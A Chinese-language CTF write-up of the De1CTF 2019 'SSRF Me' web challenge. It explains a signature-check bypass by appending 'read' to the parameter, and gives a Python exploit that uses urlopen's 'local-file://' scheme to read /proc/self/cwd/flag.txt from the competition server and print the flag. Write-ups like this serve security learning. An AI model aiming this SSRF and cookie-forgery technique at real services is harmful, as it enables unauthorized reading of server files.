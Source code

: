 ```yaml
---
title: De1ctf 2019 writeup
date: 2019-08-09 00:04:01
tags: writeup
---
```


**目录**

## 前言

最近在华为实习，跟部门的两位不怎么打CTF，但是现在想打CTF的前辈们一起打了这次的De1CTF，我主要负责WEB。这次WEB感觉还是比较防水，做出了两道题WEB和一道MISC，排名在60，以前的XCTF的WEB题都不是人做的。所以这次还是涨了点信心,定个小目标，明年XCTF总决赛吃热干面。

**目录**


## WEB
### SSRF Me 
可以使用哈希扩展攻击更改action为read(误)
更简单的是在params后面加个read,然后提交action为readscan，就可以绕过这个的cookie的检查并且可以读出文件，这题关键在于urlopen对于读取文件有另外的特殊方式

![](https://hackmd.summershrimp.com/uploads/upload_efafb2587d05e81dbfda08eb961b5b39.jpg)

```python
# coding= utf-8

import requests


cookie = 'action=readscan; sign={}'

base_url = 'http://139.180.128.86/{}?param={}'


try:
    sign = ''
    # /proc/self/cwd代表当前位置
    param1 = 'local-file:///proc/self/cwd/flag.txtread'
    sign_url = base_url.format('geneSign', param1)
    print(sign_url)
    sign = requests.get(sign_url).content
    De1ta_url = base_url.format('De1ta', 'local-file:///proc/self/cwd/flag.txt')
    print(De1ta_url)
    cookie1 = cookie.format(sign)
    headers = {"Cookie": cookie1}
    res = requests.get(De1ta_url, headers=headers).content
    print(res)
except Exception as e:
    print(e)

```
de1ctf{27782fcffbb7d00309a93bc49b74ca26}
